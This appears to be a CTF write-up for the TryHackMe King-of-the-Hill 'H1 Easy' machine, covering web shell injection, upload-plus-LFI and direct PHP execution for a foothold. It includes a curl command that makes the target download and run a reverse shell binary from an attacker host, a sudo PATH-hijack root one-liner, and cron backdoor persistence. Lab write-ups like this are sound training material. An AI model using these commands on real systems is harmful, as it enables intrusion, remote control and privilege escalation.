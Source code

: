 # H1 Easy THM Public Writeup

#### Important Machine related information

#### Map
```
nmap service overview

Has a website on 8000, 8001, 8002 and 80.
```

#### Default Credentials
```
X : Y
```

#### Network Services to Foothold

- :8000 at /vbcms has a login form that can be passed with admin:admin. you can then edit the content of the home and about pages etc, injecting a web shell. this gets code execution as `serv1`
- :8001 has a support page that allows you to upload any file as long as its extension is .jpg. then the home page has a trivial file include, which allows you to achieve PHP LFI with your uploaded file. this will get you code execution as `serv2`
- :8002 has a PHP tutorial site, allowing direct execution of whatever PHP you supply (just remember to end lines with a semi colon). this gets you code execution as `serv3`
  - there is no nc on the machine. using reverse_ssh, a payload like `system("wget RHOST:1234/client -O /home/serv3/c && chmod +x /home/serv3/c && /home/serv3/c");` works
  - curl command: 
  
```bash
curl -d "code=system(%22wget+10.10.10.157%3A1234%2Fclient+-O+%2Fhome%2Fserv3%2Fc+%26%26+chmod+%2Bx+%2Fhome%2Fserv3%2Fc+%26%26+%2Fhome%2Fserv3%2Fc%22)%3B" 10.10.136.24:8002/trycode
```

#### Privilege Escalation

- `serv2` can under sudoers run a script (`serv2 ALL=(ALL:ALL) SETENV:NOPASSWD: /usr/bin/restartServer`) that eventually calls systemctl, and preserves env vars. by creating a file called `systemctl` in /tmp, putting /bin/sh inside it, marking it executable and then setting path to include tmp you can privect to root:

  `echo /bin/sh > /tmp/systemctl && chmod +x /tmp/systemctl && sudo PATH=/tmp:$PATH /usr/bin/restartServer`
  
- `serv3` has a backup.sh script under backups in their home folder that root will run every minute. simply popping a rev shell payload in there will get root.
  - this method has the advantage that it will get called continuosly and might be missed by king squatters
  - note the file needs to be made writable first, `chmod +w /home/serv3/backups/backup.sh`, and if using a binary like reverse_ssh, put it in serv3's home folder not temp.

```bash
chmod +w /home/serv3/backups/backup.sh
echo /home/serv3/c >> /home/serv3/backups/backup.sh
rm /home/serv3/c # after connection is made
```

#### Flags
```
/root/king.txt
/root/root.txt
/var/www/serv4/index.php
/var/lib/rary
/usr/games/fortune
```

#### References

https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-h1-easy.md